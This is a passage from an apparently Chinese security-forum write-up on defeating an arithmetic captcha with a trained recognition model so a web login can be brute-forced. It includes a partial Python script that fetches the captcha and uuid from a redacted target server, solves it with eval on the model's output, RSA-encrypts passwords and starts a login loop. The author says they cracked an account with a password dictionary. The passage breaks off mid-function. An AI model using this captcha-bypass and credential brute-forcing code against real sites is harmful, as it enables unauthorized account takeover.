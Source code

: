 模型实际预测结果准确率达到百分百，已经满足我们的需求了。

![image-20220203200753500.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-2b9470104c958e7f2c9ae275ad5c3b516fc1be96.png)

0x05渗透调用
--------

训练完模型，回到我们的渗透场景。接下来就很简单了，首先我们请求验证码的接口，获取验证码图片，注意前面爬取图片的时候可以看到还会返回一个验证码的`uuid`，登录的时候也会校验，所以我们还要获取一个`uuid`。接下来就是调用模型对获取到的验证图片进行识别，然后进行计算得到结果返回。  
我们看一下登录一共需要用到的凭证

![image-20220203202519481.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-8972f91f740b74673e4bd4ea039349e9da8e1e71.png)

可以看到密码还被加密成了密文，这里采用的是 RSA 公钥加密，这一部分解决方案可以移步我在本社区发布的另一篇文章学习：<https://forum.butian.net/share/1183>  
最后我们就可以开始写一个密码字典进行爆破了，这里我采用爆破成功的一个账号密码进行演示

```python
import requests
import json
import base64
import cv2
import numpy as np
import rsa
from predict_code import predict

base_url = "https://XXXX.xxxxx.cn:9045/"
public_key = "公钥XXXXXXXXXXXXXX"
headers = {'User-Agent':"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0)"}

# 获取验证码id和图像
def get_img():
    req = requests.get(base_url + "auth/code",headers=headers,verify=False)
    data = json.loads(req.text)
    img_bs = base64.b64decode(data["img"].replace("data:image/png;base64,", ""))
    nparr = np.frombuffer(img_bs, np.uint8)
    img = cv2.imdecode(nparr, cv2.COLOR_BGR2RGB)
    return data["uuid"], img

# 处理验证码计算
def cal_img(img):
    pre1 = predict(img, 3, 23)
    pre2 = predict(img, 26, 46)
    if pre2 == '-2':
        pre2 = '+'
    elif pre2 == '-1':
        pre2 = '-'
    elif pre2 == '10':
        pre2 = '*'
    pre3 = predict(img, 48, 68)
    temp = (pre1, pre2, pre3)
    str_pre = ''.join(temp)
    return eval(str_pre)

# RSA公钥加密
def rsa_encrypt(text):
    rsa_key = rsa.PublicKey.load_pkcs1_openssl_pem(public_key)
    info = rsa.encrypt(text, rsa_key)
    cipher_text = base64.b64encode(info)
    return cipher_text

# 登录
def login(username, password):
    for i in range(3):
        uuid, img = get_img()
        code = cal_img(img)
```